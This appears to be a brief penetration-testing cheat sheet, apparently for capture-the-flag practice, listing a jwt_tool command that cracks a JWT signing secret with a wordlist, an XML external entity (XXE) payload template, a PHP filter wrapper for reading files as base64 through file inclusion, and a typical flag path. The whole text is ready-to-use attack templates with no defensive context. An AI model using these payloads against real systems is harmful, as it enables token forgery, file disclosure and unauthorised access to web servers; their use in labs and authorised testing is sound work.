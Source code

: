 # pen-tester handbook
# python3 jwt_tool.py -t URL -rc TOKEN -C -d WORDLIST


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "command">
]>
<foo> &xxe; </foo>



# template of php filters: 
php://filter/convert.base64-encode/resource= RES
# default path to web folder
/var/www/html/flag
